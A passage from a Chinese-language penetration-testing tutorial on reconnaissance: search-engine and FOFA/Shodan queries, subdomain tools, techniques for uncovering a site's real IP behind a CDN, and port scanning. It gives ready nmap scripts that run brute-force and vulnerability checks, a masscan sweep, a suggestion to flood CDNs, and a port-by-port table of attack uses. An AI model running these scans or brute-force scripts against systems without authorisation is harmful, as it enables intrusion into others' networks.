  - [Sublist3r](https://github.com/aboul3la/Sublist3r)
  - [OneForAll](https://github.com/shmilylty/OneForAll)

##### 06搜索引擎

**介绍**

搜索引擎是用于查找和排名与用户搜索匹配的 Web 内容的工具。

搜索引擎通过“蜘蛛”对全网进行大量爬行并处理后，建立索引*（索引是将抓取页面中的信息添加到叫做搜索索引的大型数据库中。）*。在此期间往往收集了大量的域名信息，需要对应的语法，即可从这数据库中获取想要的信息。

**搜索方法：**

**主流搜索引擎**

一份国外调查表：


**Goolge：**

俗称Google Hacking 大法，有十几种语法，混合使用可以更加准确地查找信息。

- Google检索技巧大全: [https://sites.google.com/site/hopeanwang/google%E6%A3%80%E7%B4%A2%E6%8A%80%E5%B7%A7%E5%A4%A7%E5%85%A8](https://sites.google.com/site/hopeanwang/google检索技巧大全)

**搜索子域名信息**

```php
site:360.cn
```


**搜索一个域名后台信息**

```php
site:xx.com inurl:id=1  intext:后台 
```


**网络空间引擎**

[fofa](https://fofa.info/)

FOFA是白帽汇推出的一款网络空间搜索引擎，它通过进行网络空间测绘，能够帮助研究人员或者企业迅速进行网络资产匹配，例如进行[漏洞](https://www.77169.net/ld)影响范围分析、应用分布统计、应用流行度排名统计等。

| 逻辑连接符 | 具体含义                                      |
| :--------- | :-------------------------------------------- |
| \=         | 匹配，=""时，可查询不存在字段或者值为空的情况 |
| \=\=       | 完全匹配，==""时，可查询存在且值为空的情况    |
| &&         | 与                                            |
| \|         | 或者                                          |
| !\=        | 不匹配，!\=""时，可查询值为空的情况           |
| ~\=        | 正则语法匹配专用（高级会员独有，不支持body）  |
| ()         | 确认查询优先级，括号内容优先级最高            |

目前FOFA支持了多个网络组件的指纹识别，包括建站模块、分享模块、各种开发框架、安全监测平台、项目管理系统、企业管理系统、视频监控系统、站长平台、电商系统、广告联盟、前端库、路由器、SSL证书、服务器管理系统、CDN、Web服务器、WAF、CMS等等，详细信息见https://fofa.info/library

**常用语法可通过”查询语法“功能获取：**

https://fofa.info/

例句(点击可去搜索)用途说明注

| 例句(点击可去搜索)                                           | 用途说明                                           | 注                                                    |
| :----------------------------------------------------------- | :------------------------------------------------- | :---------------------------------------------------- |
| [title="beijing"](https://fofa.so/result?qbase64=dGl0bGU9ImJlaWppbmci) | 从标题中搜索“北京”                                 | -                                                     |
| [header="jboss"](https://fofa.so/result?qbase64=aGVhZGVyPSJqYm9zcyI%3D) | 从http头中搜索“jboss”                              | -                                                     |
| [body="Hacked by"](https://fofa.so/result?qbase64=Ym9keT0iSGFja2VkIGJ5Ig%3D%3D) | 从html正文中搜索abc                                | -                                                     |
| [domain="qq.com"](https://fofa.so/result?qbase64=ZG9tYWluPSJxcS5jb20i) | 搜索根域名带有qq.com的网站。                       | -                                                     |
| [icon_hash="-247388890"](https://fofa.so/result?qbase64=aWNvbl9oYXNoPSItMjQ3Mzg4ODkwIg%3D%3D) | 搜索使用此icon的资产。                             | 仅限高级会员使用                                      |
| [host=".gov.cn"](https://fofa.so/result?qbase64=aG9zdD0iLmdvdi5jbiI%3D) | 从url中搜索”.gov.cn”                               | 搜索要用host作为名称                                  |
| [port="443"](https://fofa.so/result?qbase64=cG9ydD0iNDQzIg%3D%3D) | 查找对应“443”端口的资产                            | -                                                     |
| [ip="1.1.1.1"](https://fofa.so/result?qbase64=aXA9IjEuMS4xLjEi) | 从ip中搜索包含“1.1.1.1”的网站                      | 搜索要用ip作为名称                                    |
| [ip="220.181.111.1/24"](https://fofa.so/result?qbase64=aXA9IjIyMC4xODEuMTExLjEvMjQi) | 查询IP为“220.181.111.1”的C网段资产                 | -                                                     |
| [status_code="402"](https://fofa.so/result?qbase64=c3RhdHVzX2NvZGU9NDAy) | 查询服务器状态为“402”的资产                        | -                                                     |
| [protocol="https"](https://fofa.so/result?qbase64=cHJvdG9jb2w9Imh0dHBzIg%3D%3D) | 查询https协议资产                                  | 搜索指定协议类型(在开启端口扫描的情况下有效)          |
| [city="Hangzhou"](https://fofa.so/result?qbase64=Y2l0eT0iSGFuZ3pob3Ui) | 搜索指定城市的资产。                               | -                                                     |
| [region="Zhejiang"](https://fofa.so/result?qbase64=cmVnaW9uPSJaaGVqaWFuZyI%3D) | 搜索指定行政区的资产。                             | -                                                     |
| [country="CN"](https://fofa.so/result?qbase64=Y291bnRyeT0iQ04i) | 搜索指定国家(编码)的资产。                         | -                                                     |
| [cert="google"](https://fofa.so/result?qbase64=Y2VydD0iZ29vZ2xlIg%3D%3D) | 搜索证书(https或者imaps等)中带有google的资产。     | -                                                     |
| [banner=users && protocol=ftp](https://fofa.so/result?qbase64=YmFubmVyPXVzZXJzICYmIHByb3RvY29sPWZ0cA%3D%3D) | 搜索FTP协议中带有users文本的资产。                 | -                                                     |
| [type=service](https://fofa.so/result?qbase64=dHlwZT1zZXJ2aWNl) | 搜索所有协议资产，支持subdomain和service两种。     | 搜索所有协议资产                                      |
| [os=windows](https://fofa.so/result?qbase64=b3M9d2luZG93cw%3D%3D) | 搜索Windows资产。                                  | -                                                     |
| [server=="Microsoft-IIS/7.5"](https://fofa.so/result?qbase64=c2VydmVyPT0iTWljcm9zb2Z0LUlJUy83LjUi) | 搜索IIS 7.5服务器。                                | -                                                     |
| [app="HIKVISION-视频监控"](https://fofa.so/result?qbase64=YXBwPSJISUtWSVNJT04t6KeG6aKR55uR5o6nIg%3D%3D) | 搜索海康威视设备                                   | -                                                     |
| [after="2017" && before="2017-10-01"](https://fofa.so/result?qbase64=YWZ0ZXI9IjIwMTciICZhbXA7JmFtcDsgYmVmb3JlPSIyMDE3LTEwLTAxIg%3D%3D) | 时间范围段搜索                                     | -                                                     |
| [asn="19551"](https://fofa.so/result?qbase64=YXNuPSIxOTU1MSI%3D) | 搜索指定asn的资产。                                | -                                                     |
| [org="Amazon.com, Inc."](https://fofa.so/result?qbase64=b3JnPSJBbWF6b24uY29tLCBJbmMuIg%3D%3D) | 搜索指定org(组织)的资产。                          | -                                                     |
| [base_protocol="udp"](https://fofa.so/result?qbase64=YmFzZV9wcm90b2NvbD0idWRwIg%3D%3D) | 搜索指定udp协议的资产。                            | -                                                     |
| [is_ipv6=true](https://fofa.so/result?qbase64=aXNfaXB2Nj10cnVl) | 搜索ipv6的资产                                     | 搜索ipv6的资产,只接受true和false。                    |
| [is_domain=true](https://fofa.so/result?qbase64=aXNfZG9tYWluPXRydWU%3D) | 搜索域名的资产                                     | 搜索域名的资产,只接受true和false。                    |
| [ip_ports="80,161"](https://fofa.so/result?qbase64=aXBfcG9ydHM9IjgwLDE2MSI%3D) | 搜索同时开放80和161端口的ip                        | 搜索同时开放80和161端口的ip资产(以ip为单位的资产数据) |
| [port_size="6"](https://fofa.so/result?qbase64=cG9ydF9zaXplPSI2Ig%3D%3D) | 查询开放端口数量等于"6"的资产                      | 仅限FOFA会员使用                                      |
| [port_size_gt="3"](https://fofa.so/result?qbase64=cG9ydF9zaXplX2d0PSIzIg%3D%3D) | 查询开放端口数量大于"3"的资产                      | 仅限FOFA会员使用                                      |
| [port_size_lt="12"](https://fofa.so/result?qbase64=cG9ydF9zaXplX2x0PSIxMiI%3D) | 查询开放端口数量小于"12"的资产                     | 仅限FOFA会员使用                                      |
| [ip_country="CN"](https://fofa.so/result?qbase64=aXBfY291bnRyeT0iQ04i) | 搜索中国的ip资产(以ip为单位的资产数据)。           | 搜索中国的ip资产                                      |
| [ip_region="Zhejiang"](https://fofa.so/result?qbase64=aXBfcmVnaW9uPSJaaGVqaWFuZyI%3D) | 搜索指定行政区的ip资产(以ip为单位的资产数据)。     | 搜索指定行政区的资产                                  |
| [ip_city="Hangzhou"](https://fofa.so/result?qbase64=aXBfY2l0eT0iSGFuZ3pob3Ui) | 搜索指定城市的ip资产(以ip为单位的资产数据)。       | 搜索指定城市的资产                                    |
| [ip_after="2019-01-01"](https://fofa.so/result?qbase64=aXBfYWZ0ZXI9IjIwMTktMDEtMDEi) | 搜索2019-01-01以后的ip资产(以ip为单位的资产数据)。 | 搜索2019-01-01以后的ip资产                            |
| [ip_before="2019-07-01"](https://fofa.so/result?qbase64=aXBfYmVmb3JlPSIyMDE5LTA3LTAxIg%3D%3D) | 搜索2019-07-01以前的ip资产(以ip为单位的资产数据)。 | 搜索2019-07-01以前的ip资产                            |

基础了解后，可以试试规则专题，官方有提供相应的指纹、组件查找，包含“数据库专题”、“工控专题”和“区块链专题”。也可以自己提交。

- https://fofa.info/library


- 查询”致远互联-OA“系统：


[Shodan](https://www.shodan.io/)

Shodan是一个搜索接入互联网的设备的搜索引擎，2009年由约翰·马瑟利发布。学生会员可以每个月下载1w条数据，黑五可能会有优惠价格。

> ps：Shodan 侧重于主机设备

- [规则列表](https://www.shodan.io/explore)


[**0.zone**](https://0.zone/)

它是一个免费的外部攻击面管理SaaS平台，供红蓝队使用，为防御者提供攻击者视角下的企业外部攻击面数据，减少攻防信息差，以促进企业攻击面的收敛和管理。

- [语法参考](https://0.zone/grammarList)


**搜索企业名称示例**（需要会员才能获取企业黄页）

可查看此公司下匹配到的信息系统、移动端应用、敏感目录、邮箱、文档、代码、人员信息数据。这个功能定向查找单位资产非常方便好用。


不同于fofa，该平台做了收录信息归纳，感觉还不错。

- 使用参考：https://mp.weixin.qq.com/s/0Nf_HJr-Rn4mZEC3QYKtwg

[hunter](https://hunter.qianxin.com/)

全球鹰是奇安信的一款产品。通过网络空间测绘技术，全球鹰测绘平台可以提供IP、域名、开放端口、应用/组件、所属企业等关键安全信息，同时结合攻防场景绘制了资产画像与IP画像，实现互联网资产的可查、可定位、操作可识别的检索，助力企业日常的安全运营工作，例如未知资产发现、风险识别、漏洞修复等。目前全球鹰网络空间测绘平台已有3亿独立IP，资产(剔除历史重复数据)总数超过20亿，已实现全端口覆盖。在全球我们已覆盖了261个国家，96% ASN域。国内web资产最快4天更新，最慢7天更新。

[语法参考](https://hunter.qianxin.com/)


其他

还有一些不错的检索平台，就不一一介绍，可以去官网瞧瞧语法和规则这块，这块还是api用得多。*（没会员没法爽玩。。）*

- [zoomeye](https://www.zoomeye.org/)
- [quake](https://quake.360.cn/)
- [谛听](https://www.ditecting.com/)
- [知风](https://zhifeng.io/web/new/)
- [binaryedge](https://www.binaryedge.io/)
- [censys](https://search.censys.io/)
- [dnsdb](https://dnsdb.io/zh-cn/)
- [greynoise](https://www.greynoise.io/blog)
- [hunter](https://hunter.io/)
- [Project Sonar](https://opendata.rapid7.com/)
- [intelx](https://intelx.io/)
- [dnsdumpster](https://dnsdumpster.com/)
- phonebook.cz
- [fullhunt](https://fullhunt.io/)
- [netlas](https://netlas.io/)

关于搜索引擎详细可以参考下：

- [网络空间检索平台对比](https://www.cnblogs.com/Akkuman/p/15469098.html)
- [零零信安攻击面管理系统 | 企业信息泄露情报平台](https://www.iculture.cc/cybersecurity/pig=16553)
- [盘点一下在渗透测试中可能用到的网络搜索引擎](https://www.77169.net/html/289075.html)

##### 07工具自动化

总的来说，信息收集有很多重复性查询筛选，手工相对费时费力，因此可以借助半自动化工具来达到事半功倍的效果。

**OneForAll**

> https://github.com/shmilylty/OneForAll

解决大多传统子域名收集工具不够强大、不够友好、缺少维护和效率问题的痛点，是一款集百家之长，功能强大的全面快速子域收集终极神器。

**subfinder**

> https://github.com/projectdiscovery/subfinder

brew install subfinder

Subfinder 是一个子域发现工具，它通过使用被动在线资源来发现网站的有效子域。它具有简单的模块化架构，并针对速度进行了优化。 subfinder 是为只做一件事而构建的——被动子域枚举，它做得很好。

**ksubdomain**

> https://github.com/knownsec/ksubdomain

ksubdomain是一款基于无状态子域名爆破工具，支持在Windows/Linux/Mac上使用，它会很快的进行DNS爆破，在Mac和Windows上理论最大发包速度在30w/s,linux上为160w/s的速度。

**JSINFO-SCAN**

> https://github.com/p1g3/JSINFO-SCAN

递归爬取域名(netloc/domain)，以及递归从JS中获取信息的工具

**URLFinder**

> https://github.com/pingc0y/URLFinder

URLFinder是一款用于快速提取检测页面中JS与URL的工具。

功能类似于JSFinder，但JSFinder好久没更新了。

Layer**子域名挖掘机**

> https://github.com/euphrat1ca/LayerDomainFinder

Layer子域名挖掘机是一款子域名收集工具，拥有简洁的界面和简单的操作模式，支持服务接口查询和暴力枚举获取子域名信息，同时可以通过已获取的域名进行递归爆破。

**ESD**

> https://github.com/FeeiCN/ESD

支持泛解析功能较全的枚举子域工具

**EyeWitness**

> https://github.com/FortyNorthSecurity/EyeWitness

Eyewitness可自动查询URL对应网站的截图、RDP服务、Open VNC服务器以及一些服务器title、甚至是可识别的默认凭据等，最终会生成一个详细的html报告。

## 0x03IP信息搜集

通过ip或域名获取到一些基本信息（端口、服务、架构、目录等）后，也可以通过ip段目标扩大攻击面，也有可能找到一些未分配的边缘资产。

### 01绕过cdn获取真实ip

CDN是IP信息探测或打点必不可绕过的一个话题。当目标使用了CDN加速，获取到的目标ip不一定是真实ip。所以通常在实施端口、漏扫等测试之前，需判断下是否真实IP，是否使用了CDN或其他代理等等，避免无效操作、蜜罐、非目标点。

```
CDN的全称是Content Delivery Network，即内容分发网络。其基本思路是尽可能避开互联网上有可能影响数据传输速度和稳定性的瓶颈和环节，使内容传输的更快、更稳定。通过在网络各处放置节点服务器所构成的在现有的互联网基础之上的一层智能虚拟网络，CDN系统能够实时地根据网络流量和各节点的连接、负载状况以及到用户的距离和响应时间等综合信息将用户的请求重新导向离用户最近的服务节点上。其目的是使用户可就近取得所需内容，解决 Internet网络拥挤的状况，提高用户访问网站的响应速度。
```

#### 常见CDN服务商

**一、国内 CDN 服务商**

- 阿里云 CDN
- 百度云 CDN
- 七牛云 CDN
- 又拍云 CDN
- 腾讯云 CDN
- Ucloud
- 360 CDN
- 网宿科技
- ChinaCache
- 帝联科技

**二、国外 CDN 服务商**

- CloudFlare
- StackPath
- Fastly
- Akamai
- CloudFront
- Edgecast
- CDNetworks
- Google Cloud CDN
- CacheFly
- Keycdn
- Udomain
- CDN77

#### CDN判断

确定CDN加速解析后，那就要考虑如何绕过来获取真实ip，以进一步攻击利用。

##### 0x01 多ping

通过多地ping目标域名，如果没有使用CDN，只会显示一个IP地址，或者双线接入情况的两个不同运营商ip。

多ping在线站点：

- http://ping.chinaz.com/
- https://ping.aizhan.com/
- http://www.webkaka.com/Ping.aspx
- https://www.host-tracker.com/v3/check/

如图，不同地区访问有不同ip，一般存在CDN：


##### 0x02 nslookup

获取到的DNS域名解析结果中返回多个ip的，一般都是存在CDN服务。


##### 0x03 header头信息

- 请求响应包header头中是否存在cdn服务商信息
- 报错信息
- 若 asp 或者 asp.net 网站返回头的 server 不是 IIS、而是 Nginx，则多半使用了nginx反向代理到 CDN


##### 0x04 在线检测工具

- https://www.cdnplanet.com/tools/cdnfinder/
- https://tools.ipip.net/cdn.php
- https://whatsmycdn.com/


#### 获取真实IP

##### 0x01 dns历史绑定记录

查询域名历史解析记录，可**能会存在未使用cdn之前的真实ip**记录：

- https://dnsdb.io/zh-cn/
- https://securitytrails.com/
- https://x.threatbook.cn/
- http://toolbar.netcraft.com/site_report?url=
- https://viewdns.info/iphistory/?domain=
- https://site.ip138.com/www.xxx.com/

CDN判断：


存在CDN，利用微步查询获取历史记录，然后将每个ip都测试一篇


通过源代码获取，确定真实ip


##### 0x02 **网络空间测绘搜索引擎**

> 网络空间测绘，一般都会定时把全网资产扫一遍存在数据库里。

通过网络空间测绘搜索引擎搜索其收录的目标相关信息，有概率获取到目标真实IP。

- [fofa](https://fofa.so/)
- [shodan](https://www.shodan.io/)
- [quake](https://quake.360.cn/quake/#/index)
- [Censys.io](https://censys.io/)

大概从以下几个关键因素去搜索验证：

- ip
- 域名
- title
- logo
- icp
- body
- js/css/html等静态特征值


通过获取logo icon指纹哈希特征，搜索其相同的主机结果，进一步探测真实IP：


##### 0x03 子域名

考虑到CDN成本问题，一些重要站点会采用cdn加速，而一些子域名则没有使用。一般情况下，一些子域名与主站的真实ip在同一c段或同一台服务器上，这时就可以通过发现子域名c段ip、端口信息，逐个探测定位主站真实ip地址。

常见查找方法和工具：

- [各大搜索引擎](http://sousuo.org.cn/)
- [微步在线](https://x.threatbook.cn/)
- [oneforall](https://github.com/shmilylty/OneForAll)
- [ksubdomain](https://github.com/knownsec/ksubdomain)
- [Jsinfo-scan](https://github.com/p1g3/JSINFO-SCAN)

##### 0x04 异地ping

部分国内cdn广商只做了国内的线路，而没有铺设对国外的线路，这时就可以通过海外解析直接获取到真实IP。

可以使用：

部分国内cdn广商只做了国内的线路，而没有铺设对国外的线路，这时就可以通过海外解析直接获取到真实IP。

可以使用：

- http://ping.chinaz.com/
- https://asm.ca.com/zh_cn/ping.php
- http://host-tracker.com/
- http://www.webpagetest.org/
- https://dnscheck.pingdom.com/
- https://www.host-tracker.com/v3/check/


##### 0x05 SSL证书

证书颁发机构 (CA) 必须将他们发布的每个 SSL/TLS 证书发布到公共日志中，SSL/TLS 证书通常包含域名、子域名和电子邮件地址。因此可以利用 SSL/TLS 证书来发现目标站点的真实 IP 地址。

CDN在提供保护的同时，也会与服务器之间进行加密通信（SSL）。当通过服443端口去访问服务器ip或域名时，就会暴露其SSL证书，也就可以通过证书比对发现服务器的真实IP地址。

**在线：**

- https://crt.sh/

通过 [https://crt.sh](https://crt.sh/) 进行快速证书查询收集


- [Censys 引擎](https://censys.io/)

  Censys 搜索引擎能够扫描整个互联网，每天都会扫描 IPv4 地址空间，以搜索所有联网设备并收集相关的信息，可以利用 Censys 进行全网方面的 SSL 证书搜索，找到匹配的真实 IP 。

通过Censys引擎搜索证书信息，发现多个有效或无效的证书：

https://search.censys.io/certificates?q=www.roken-niji.jp

> ps: 并不是有效的证书才是有价值的，无效的证书中也会有很多服务器配置错误依然保留着的信息。


精准定位有效SSL证书：

```bash
parsed.names: xxx.com and tags.raw: trusted
```


逐个打开，根据sha1签名反查主机


无果


**命令行**

- openssl

```bash
openssl s\_client -connect roken-niji.jp:443 | grep subject
```


- curl

```bash
curl -v https://www.roken-niji.jp/ | grep 'subject'
```

工具：

```
CloudFlair
```

项目地址：https://github.com/christophetd/CloudFlair

> 使用来自 Censys 的全网扫描数据查找 CloudFlare 背后网站的源服务器。

##### 0x06 敏感文件泄露

包括但不限于：

- 服务器日志文件
- 探针文件，例如 phpinfo
- 网站备份压缩文件
- .DS_Store
- .hg
- .git
- SVN
- Web.xml


##### 0x07 CDN配置问题

某些站点只做了www cname到CDN上，导致[www.xxx.com](https://forum.butian.net/share/www.xxx.com)和xxx.com是两条独立的解析记录，所以可以通过直接ping域名xxx.com获取到未加入cdn的真实IP，同理http协议和https协议配置也是有可能出现这种问题。

##### 0x08 漏洞

- 网站本身存在一些漏洞时，如XSS/SSRF/XXE/命令执行等，通过带外服务器地址注入，使服务器主动连接，被动获取连接记录。
- 部分本身功能，如url采集、远程url图片、编辑器问题等。
- 异常信息、调式信息等都有可能泄露真实IP或内网ip的。
  - ThinkPHP 报错/SpringBoot变量/phpinfo


##### 0x09 邮件头信息

一般邮件系统都在内部，没有经过CDN解析，通过邮件发送、RSS订阅等sendmail功能去获取到服务器与邮箱系统交互的邮件源码，在源文件头信息或者源代码中就会包含服务器真实ip。但需注意该ip是否第三方邮件服务器（如腾讯企业邮件、阿里企业邮箱），一般只有应用与网站在同一服务器上时，才获取到当前服务器的真实ip。

常见交互功能点：

- RSS 订阅
- 邮箱注册、激活处
- 邮箱找回密码处
- 产品更新的邮件推送
- 某业务执行后发送的邮件通知
- 员工邮箱、邮件管理平台等入口处的忘记密码

可以通过查mx记录确定下是否第三方邮件服务器，当然这里这个邮箱很明显了。。


- 大佬分享的`奇淫技巧`：通过发送邮件给一个不存在的邮箱地址，比如 [000xxx@domain.com](mailto:000xxx@domain.com) ，因为该用户不存在，所以发送将失败，并且还会收到一个包含发送该电子邮件给你的服务器的真实 IP 通知。
- foxmail导出的邮件可以用编辑器打开查看其内容。

##### 0x10 vhost碰撞

只要字典够强大，数据够多，通过 IP 和子域的碰撞，总会有所收获。

在线工具：

https://pentest-tools.com/information-gathering/find-virtual-hosts#

##### 0x11 应用程序

一些app、小程序会直接采用ip进行通信交互，也可以通过一些历史版本探测真实ip。

##### 0x12 **通过 F5 LTM 解码**

> 一般常用的负载均衡实现方式：
>
> - 基于cookie的会话保持
> - 基于session的会话保持，如weblogic的session复制机制
> - 基于四层的负载，ip+端口。

- LTM 是将所有的应用请求分配到多个节点服务器上。提高业务的处理能力，也就是负载均衡。F5 LTM也就是5公司旗下的一种负载均衡方案。
- 当服务器使用 F5 LTM 做负载均衡时，通过对 `set-cookie` 关键字的解码，可以获取服务器真实 ip 地址。

**例如：基于cookie会话保持情况：**

F5在获取到客户端第一次请求时，会使用set cookie头，给客户端标记一个特定的cookie。

```http
Set-Cookie: BIGipServerPool-i-am-na\_tcp443=2388933130.64288.0000; path=/;
```

后续客户端请求时，F5都会去校验cookie中得字段，判断交给那个服务器处理。那么就可以利用此机制，获取处理服务器的ip地址，大概率也是网站服务器真实ip。具体解法如下：

- 先把第一小节的十进制数，即 2388933130 取出来
- 将其转为十六进制数 8e643a0a
- 接着从后至前，取四个字节出来：0a.3a.64.8e
- 最后依次转为十进制数 10.58.100.142，即是服务器的真实ip地址。

一般来说基本都是内网ip，但也有例外，得看部署情况，无意间找到一个：

```http
Set-Cookie: BIGipServerpool-shibboleth3-dev-8080=3045805720.36895.0000; path=/; Httponly
```

自动化解码工具：

https://github.com/ezelf/f5_cookieLeaks

```http
Set-Cookie: BIGipServerpool-shibboleth3-dev-8080=3045805720.36895.0000; path=/; Httponly
```

##### 0x13 其他

- 扫全网
  - https://github.com/superfish9/hackcdn
  - https://github.com/boy-hack/w8fuckcdn
- 流量攻击
  - 对不设防的CDN发起大量访问，导致出错或服务器更换时可能会泄露真实ip。
- 长期关注
  - 定期访问记录ip变化，业务变更或架构调整可能会有更换服务器更换ip的情况。
- 流量包问题
  - 部分开发者会将真实ip记录到一些header响应头或者响应包中。
- 403绕过
  - 当目标地址放在标头（如Location头）中时，可通过抓包将http协议改为1.0并将请求中除第一行外的所有数据删掉，再发送请求有机会再相应包中Location头获取到真实ip地址。
  - ……

更多方法可以参考binmaker大佬的总结：

[渗透测试中最全的CDN绕过总结](https://mp.weixin.qq.com/s?__biz=MzIzNzMxMDkxNw==&mid=2247490046&idx=1&sn=994fc288c54907e7317c6818e2e2507b&chksm=e8cbdf54dfbc5642dd5ac26de38bfcf5749614d5bf6ba5bb61cb9078a59027d6ee7f5e183ad1#rd)

### 02组织IP段

当目标信息比较笼统时，可以通过IP地址注册信息查询运营商给目标组织所分配的ip段信息，继而对这个段进行测试。这样既可以扩大范围也有可能直接找到CDN后的真实服务器。

- [CNNIC IP地址注册信息查询系统](https://ipwhois.cnnic.net.cn/)


- [RIPE 数据库](https://apps.db.ripe.net/)

以阿里为例，收集组织对应ip信息


- [Hurricane Electric BGP Toolkit](https://bgp.he.net/)


### 03C段

一般都是扫C段为主，B段为辅。通过获取同在一个ip段的同类型网站或业务来扩大攻击面，往往同ip段中会存在一些后台、api相关处理服务等。

#### C段主要收集点：

- ip
- 端口
- 容器类型
- title

#### 扫描常用工具：

##### 网络空间搜索引擎（fofa、quake...)

> ps: 手工扫描都是实时的，相比空间搜索引擎较精准些。

##### nmap

- 工具强大，速度有待优化。
- 六种扫描结果
  - open(开放的)
  - filtered(被过滤的)
  - open|filtered(开放或者被过滤的)
  - closed(关闭的)
  - closed|filtered(关闭或者被过滤的)
  - unfiltered(未被过滤的)
- 常用命令

```bash
nmap -vvv -Pn -p- ip/24 -n -T4  
#-v 输出详细信息，-v/-vv/-vvv v越多信息越详细 上线3个v  
#-Pn 扫描时不用ping  
#-p-  扫描所有端口（65535个）。如果不使用 -p- ，nmap 将仅扫描1000个端口，GUI参数不可用  
#-n 不做DNS解析  
#-T4 设置时间模板,0-5部分做了扫描时间优化，默认3未作优化。4加速扫描又保持一定准确性
```

- 扫描全端口，并调用各种脚本

```bash
#!/usr/bin/env bash   

read -p "ip: " ip  
nmap -v -Pn -p- --open -sV $ip -n -T4 --max-scan-delay 10 --max-retries 3 --min-hostgroup 10 -oX $ip-result-\`date +%y-%m-%d-%H-%M-%S\`.xml --script=dns-zone-transfer,ftp-anon,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,http-backup-finder,http-cisco-anyconnect,http-iis-short-name-brute,http-put,http-php-version,http-shellshock,http-robots.txt,http-svn-enum,http-webdav-scan,iax2-version,memcached-info,mongodb-info,msrpc-enum,ms-sql-info,mysql-info,nrpe-enum,pptp-version,redis-info,rpcinfo,samba-vuln-cve-2012-1182,smb-vuln-ms08-067,smb-vuln-ms17-010,snmp-info,sshv1,xmpp-info,tftp-enum,teamspeak2-version,ftp-brute,imap-brute,smtp-brute,pop3-brute,mongodb-brute,redis-brute,ms-sql-brute,rlogin-brute,rsync-brute,mysql-brute,pgsql-brute,oracle-sid-brute,oracle-brute,rtsp-url-brute,snmp-brute,svn-brute,telnet-brute,vnc-brute,xmpp-brute
```

- 快速扫描常见端口，并调用各种脚本

```bash
#!/usr/bin/env bash   

read -p "ip: " ip  
nmap -vvv -Pn -p 20,22,23,25,53,69,80-89,443,8440-8450,8080-8089,110,111,137,143,161,389,512,873,1194,1352,1433,1521,1500,1723,2082,2181,2601,3128,3312,3306,3389,3690,4848,5000,5432,5900,5984,6379,7001,7002,7003,7778,8000,8069,8888,9000,9002,9080-9081,9090,9200,10001,10002,11211,27017,50070 --open -sV $ip -n -T4 --max-scan-delay 10 --max-retries 3 --min-hostgroup 10 -oX $ip-result-\`date +%y-%m-%d-%H-%M-%S\`.xml --script=dns-zone-transfer,ftp-anon,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,http-backup-finder,http-cisco-anyconnect,http-iis-short-name-brute,http-put,http-php-version,http-shellshock,http-robots.txt,http-svn-enum,http-webdav-scan,iax2-version,memcached-info,mongodb-info,msrpc-enum,ms-sql-info,mysql-info,nrpe-enum,pptp-version,redis-info,rpcinfo,samba-vuln-cve-2012-1182,smb-vuln-ms08-067,smb-vuln-ms17-010,snmp-info,sshv1,xmpp-info,tftp-enum,teamspeak2-version,ftp-brute,imap-brute,smtp-brute,pop3-brute,mongodb-brute,redis-brute,ms-sql-brute,rlogin-brute,rsync-brute,mysql-brute,pgsql-brute,oracle-sid-brute,oracle-brute,rtsp-url-brute,snmp-brute,svn-brute,telnet-brute,vnc-brute,xmpp-brute
```

##### msscan

> https://github.com/robertdavidgraham/masscan

- 速度快，精确度有待优化 ```shell

  masscan -p80,8000-8100 10.0.0.0/8 --rate=10000

  ```
  ##### masscan\_to\_nmap
  ```

https://github.com/7dog7/masscan_to_nmap

- nmap+msscan缝合怪

##### Goby

> https://cn.gobies.org/

- 资产扫描利器，支持图像化、方便快捷、可自定义poc漏扫。

##### shuize

> https://github.com/0x727/ShuiZe_0x727

- 信息收集一键化+漏洞检验

##### fscan

> https://github.com/shadow1ng/fscan

##### ALLin

> https://github.com/P1-Team/AlliN

### 04旁站(ip反查域名)

一个服务器上存在多个站点，可通过ip查询相应站点，再从相应站点进一步突破获取服务器权限。

##### 常见查询方法：

**在线平台：**

https://www.webscan.cc/
https://viewdns.info/reverseip/
https://reverseip.domaintools.com/
https://tools.ipip.net/ipdomain.php
https://dnslytics.com/

**网络空间搜索引擎：**

- fofa、zoomeye、hunte、quake等

**工具：**

- [ip2domain - 批量查询ip对应域名、备案信息、百度权重](https://github.com/Sma11New/ip2domain)
- 水泽
- nmap
- ....

### 05端口

确定真实ip后，就可以进行端口扫描，比较常见的就是nmap和masscan了，masscan相比nmap多了速度的优势，可以快速扫描全端口。扫描可以结合空间引擎结果发现更多目标端口。

> tips:
>
> - 大批量扫描时建议云上挂代理池进行。
> - 查看端口出现频率
>
> https://github.com/laconicwolf/Masscan-to-CSV
>
> - masscan扫描出的端口可以用nmap去确认

工具可参考C段章节

##### 端口渗透思路表

引用下某大佬的端口渗透思路表，可以学习学习下。

| 端口                              | 服务                  | 渗透用途                                                     |
| :-------------------------------- | :-------------------- | :----------------------------------------------------------- |
| tcp 20,21                         | FTP                   | 允许匿名的上传下载,爆破,嗅探,win提权,远程执行(proftpd 1.3.5),各类后门(proftpd,vsftp 2.3.4) |
| tcp 22                            | SSH                   | 可根据已搜集到的信息尝试爆破,v1版本可中间人,ssh隧道及内网代理转发,文件传输等等 |
| tcp 23                            | Telnet                | 爆破,嗅探,一般常用于路由,交换登陆,可尝试弱口令               |
| tcp 25                            | SMTP                  | 邮件伪造,vrfy/expn查询邮件用户信息,可使用smtp-user-enum工具来自动跑 |
| tcp/udp 53                        | DNS                   | 允许区域传送,dns劫持,缓存投毒,欺骗以及各种基于dns隧道的远控  |
| tcp/udp 69                        | TFTP                  | 尝试下载目标及其的各类重要配置文件                           |
| tcp 80-89,443,8440-8450,8080-8089 | 各种常用的Web服务端口 | 可尝试经典的topn,vpn,owa,webmail,目标oa,各类Java控制台,各类服务器Web管理面板,各类Web中间件漏洞利用,各类Web框架漏洞利用等等…… |
| tcp 110                           | POP3                  | 可尝试爆破,嗅探                                              |
| tcp 111,2049                      | NFS                   | 权限配置不当                                                 |
| tcp 137,139,445                   | Samba                 | 可尝试爆破以及smb自身的各种远程执行类漏洞利用,如,ms08-067,ms17-010,嗅探等…… |
| tcp 143                           | IMAP                  | 可尝试爆破                                                   |
| udp 161                           | SNMP                  | 爆破默认团队字符串,搜集目标内网信息                          |
| tcp 389                           | LDAP                  | ldap注入,允许匿名访问,弱口令                                 |
| tcp 512,513,514                   | Linux rexec           | 可爆破,rlogin登陆                                            |
| tcp 873                           | Rsync                 | 匿名访问,文件上传                                            |
| tcp 1194                          | OpenVPN               | 想办法钓VPN账号,进内网                                       |
| tcp 1352                          | Lotus                 | 弱口令,信息泄漏,爆破                                         |
